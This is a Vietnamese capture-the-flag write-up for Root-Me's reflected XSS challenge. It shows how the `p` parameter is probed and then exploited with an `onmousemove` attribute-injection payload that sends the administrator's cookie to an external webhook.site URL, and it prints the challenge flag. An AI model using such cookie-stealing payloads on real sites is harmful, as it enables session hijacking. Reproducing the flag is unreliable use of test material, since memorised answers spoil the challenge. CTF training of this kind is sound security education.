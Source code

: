 # XSS - Reflected
alert(’xtra stupid security’)

**Statement**

Find a way to steal the administrator’s cookie.

Be careful, this administrator is aware of info security and he does not click on strange links that he could receive.
## Cách làm
Truy cập vào link http://challenge01.root-me.org/web-client/ch26/ ta sẽ thấy giao diện:

![image](https://github.com/aQ05/Write-up/assets/121664384/b0830567-58d6-46ea-b51a-c2c6b969bfd3)

Click vào từng mục, ta dễ dàng thấy ở mỗi mục có một thuộc tính `p` được gắn giá trị tương ứng từng mục:
![Screenshot 2023-11-11 145248](https://github.com/aQ05/Write-up/assets/121664384/a1ec5dec-0d3d-4d87-a7d3-c7dc92fd8c62)

Thử gán thuộc tính `p` đó cho câu lệnh `<script>alert(1)</script>` để kiểm tra xem nó có dính lỗi XSS hay không

![image](https://github.com/aQ05/Write-up/assets/121664384/8ed0492d-991e-4661-8f7e-d4e00a4c42e0)

Khi request đến `?p=<script>alert(1)</script>`, website hiển thị trang web lỗi và có một hyperlink thẻ <a> hiển thị nội dung ‘<script>alert(1)</script>’. Có thể thấy web đã dính lỗi XSS:

![image](https://github.com/aQ05/Write-up/assets/121664384/a7829112-fe4b-448b-883c-a15d6248a8ab)

Thử nhập `?p=ayuq' onmousemove='alert(1)`, page sẽ báo lỗi và hiển thị nội dung trong thẻ <a>.  (`onmousemove` khi trỏ chuột vào thì nó sẽ chạy đoạn js bên trong).

![image](https://github.com/aQ05/Write-up/assets/121664384/a756767e-6e32-4113-975d-a5b1aad6bb02)

Khi đó, ta thực hiện gửi cookie của admin vào host của mình.

Payload: `ayuq' onmousemove='document.location="https://webhook.site/aa5efb2d-0612-4b77-96cc-79606f6bc8aa?".concat(document.cookie)`

![image](https://github.com/aQ05/Write-up/assets/121664384/c6f69bd0-f38a-4781-9e82-610e23e907c2)

Thực hiện request với payload. Sau đó, ta thực hiện lại một lần nữa nhưng sẽ thực hiện thêm bước Report đến admin đển POST request:
![image](https://github.com/aQ05/Write-up/assets/121664384/102832e4-d086-4119-a80b-e2f3e269d2f9)

![Screenshot 2023-11-11 160952](https://github.com/aQ05/Write-up/assets/121664384/a6a8c118-390f-4652-82db-1a58d76dc8e5)

## Flag
`r3fL3ct3D_XsS_fTw`
